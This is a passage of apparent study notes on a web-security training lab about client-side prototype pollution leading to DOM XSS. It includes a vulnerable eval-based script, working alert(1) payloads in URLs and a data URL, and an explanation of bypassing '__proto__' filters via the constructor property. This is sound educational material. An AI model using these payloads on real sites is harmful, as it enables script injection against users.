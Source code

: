 The script dynamically loads this value as src, execute the payload.

`data:,alert(1);` is a data URL that executes alert(1) when loaded as a \<script> source.
### Lab: DOM XSS via an alternative prototype pollution vector

This lab is vulnerable to DOM XSS via client-side prototype pollution. To solve the lab:

 -   Find a source that you can use to add arbitrary properties to the global Object.prototype.

  -  Identify a gadget property that allows you to execute arbitrary JavaScript.

   - Combine these to call alert().

You can solve this lab manually in your browser, or use DOM Invader to help you. 

Prototype pollution vector:
```
/?__proto__.foo=bar
```

**searchLoggerAlternatve.js**

```js
async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

Final payload:
```
/?__proto__.sequence=alert(1)-
```
### Prototype pollution via the constructor

So far, we've looked exclusively at how you can get a reference to prototype objects via the special `__proto__` accessor property. As this is the classic technique for prototype pollution, a common defense is to strip any properties with the key `__proto__` from user-controlled objects before merging them. This approach is flawed as there are alternative ways to reference Object.prototype without relying on the `__proto__` string at all.

Unless its prototype is set to null, every JavaScript object has a constructor property, which contains a reference to the constructor function that was used to create it. For example, you can create a new object either using literal syntax or by explicitly invoking the `Object()` constructor as follows:
```js
let myObjectLiteral = {};
let myObject = new Object();
```
You can then reference the `Object()` constructor via the built-in constructor property:
```js
myObjectLiteral.constructor            // function Object(){...}
myObject.constructor                   // function Object(){...}
```
Remember that functions are also just objects under the hood. Each constructor function has a prototype property, which points to the prototype that will be assigned to any objects that are created by this constructor. As a result, you can also access any object's prototype as follows:
```js
```